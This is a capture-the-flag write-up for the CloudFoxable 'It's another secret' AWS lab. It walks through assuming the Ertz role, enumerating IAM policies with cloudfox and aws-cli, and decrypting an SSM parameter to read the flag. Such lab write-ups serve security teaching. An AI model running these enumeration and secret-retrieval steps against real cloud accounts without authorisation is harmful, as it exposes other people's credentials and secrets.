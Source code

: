 # CloudFoxable - It's a secret

Challenge link: https://cloudfoxable.bishopfox.com/challenges#It's%20another%20secret-8

![](images/its-another-secret-description.png)

Description show us that we will need to assume that we have another role to attack this challenge so let's add these data to file `~/.aws/config`:

```
[profile ertz]
region = us-west-2
role_arn = arn:aws:iam::<ACCOUNT_ID>:role/Ertz
source_profile = cloudfoxable
```

We can get the `<ACCOUNT_ID>` by running the following command:

```
$ aws --profile cloudfoxable sts get-caller-identity
{
    "UserId": "AIDATCKATCT4TWZ46F3FJ",
    "Account": "211125736697",
    "Arn": "arn:aws:iam::211125736697:user/ctf-starting-user"
}
```

So `<ACCOUNT_ID>` is `211125736697`, let's add new profile to config:

![](images/its-another-secret-assume-role-config.png)

We can verify new profile to make sure it works:

![](images/its-another-secret-verify-assume-role-config.png)

Remember that it's just role, not user so we cannot list any policy from that. Now we can start hacking!

## Using cloudfox

Description wants us to read a secret called `its-another-secret` so we will list all secrets first:

```
cloudfox aws -p cloudfoxable secret
```

![](images/its-another-secret-cloudfox-secret.png)

It will list all secrets can be found. The only thing we want is the loot file (`pull-secrets-commands.txt`), which contains command to read those secrets:

![](images/its-another-secret-secret-loot.png)

We need to read secret `its-another-secret` so let's run the command to read that secret with profile **`cloudfoxable`**:

```
aws --profile cloudfoxable --region us-west-2 ssm get-parameter --with-decryption --name /cloudfoxable/flag/its-another-secret
```

![](images/its-another-secret-cloudfox-get-flag-failed.png)

Opps! Profile **`cloudfoxable`** doesn't have enough permission to read that. Why?

The reason is profile `cloudfoxable` is being executed as user `ctf-starting-user`. You can run the following command to verify that `ctf-starting-user` doesn't have any role to read `its-another-secret` (just `its-a-secret`):

```
cloudfox aws -p cloudfoxable permissions --principal ctf-starting-user
```

But if we check with role `Ertz`, we got something new:

![](images/its-another-secret-cloudfox-ertz-permission.png)

Ah ha this role allow us to get param `its-another-secret` of AWS System Manaer (SSM) so let's get that flag with profile **`ertz`**:

```
aws --profile ertz --region us-west-2 ssm get-parameter --with-decryption --name /cloudfoxable/flag/its-another-secret
```

![](images/its-another-secret-cloudfox-get-flag-success.png)

Bingo! We got the flag.

## Using aws-cli

Again, because aws-cli doesn't have command `secret` as cloudfox does so the basic thing we need to do is to list all policy that profile `ertz` has:

```
$ aws --profile cloudfoxable iam list-attached-role-policies --role-name Ertz
{
    "AttachedPolicies": [
        {
            "PolicyName": "its-another-secret-policy",
            "PolicyArn": "arn:aws:iam::211125736697:policy/its-another-secret-policy"
        }
    ]
}
```

Wow! We got 1 new policy. Let's check what resource this policy interact with. First we need to get version id of this policy:

```
$ aws --profile cloudfoxable iam get-policy --policy-arn arn:aws:iam::211125736697:policy/its-another-secret-policy
{
    "Policy": {
        "PolicyName": "its-another-secret-policy",
        "PolicyId": "ANPATCKATCT44IEAFMNNE",
        "Arn": "arn:aws:iam::211125736697:policy/its-another-secret-policy",
        "Path": "/",
        "DefaultVersionId": "v1",
        "AttachmentCount": 1,
        "PermissionsBoundaryUsageCount": 0,
        "IsAttachable": true,
        "Description": "policy that only allows access to the its-another-secret flag",
        "CreateDate": "2024-07-10T01:57:38+00:00",
        "UpdateDate": "2024-07-10T01:57:38+00:00",
        "Tags": []
    }
}
```

So version id is **`v1`**, let's get the resource:

```
$ aws --profile cloudfoxable iam get-policy-version --policy-arn arn:aws:iam::211125736697:policy/its-another-secret-policy --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "ssm:GetParameter"
                    ],
                    "Effect": "Allow",
                    "Resource": [
                        "arn:aws:ssm:us-west-2:211125736697:parameter/cloudfoxable/flag/its-another-secret"
                    ]
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2024-07-10T01:57:38+00:00"
    }
}
```

So its action is **`ssm:GetParameter`** with resource path is **`/cloudfoxable/flag/its-another-secret`**. It's time to get flag with profile **`ertz`** (Because only profile `ertz` has access to `its-another-secret` while profile `cloudfoxable` don't):

```
aws --profile ertz ssm get-parameter --with-decryption --name /cloudfoxable/flag/its-another-secret
```

![](images/its-another-secret-aws-cli-get-flag.png)

# Reference

https://medium.com/@cybersecshashi/cloudfoxable-its-another-secret-6bb2d9a6e7f3